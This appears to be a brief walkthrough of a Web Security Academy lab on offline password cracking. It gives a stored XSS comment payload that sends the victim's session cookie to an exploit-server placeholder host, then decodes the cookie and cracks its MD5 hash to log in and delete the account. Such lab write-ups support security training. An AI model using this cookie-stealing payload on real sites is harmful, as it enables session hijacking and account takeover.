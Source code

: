 # Lab: Offline password cracking

Login with the known creds, note that the stay-logged-in cookie is a base64-encoded form of `username:md5-hashed-password`

Note that the comment functionality of the blog is vulnerable to XSS. Make the following comment on one of the blog posts (replacing the exploit server id with the appropriate value provided by the lab exploit server):

`<script>document.location='//<exploit-server-id>.web-security-academy.net/'+document.cookie</script>`

Check the server access log to find the target's cookie: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

Decode: `carlos:26323c16d5f4dabff3bb136f2460a943`

Search for the hash to find the password: `onceuponatime`

Login and delete the user's account.
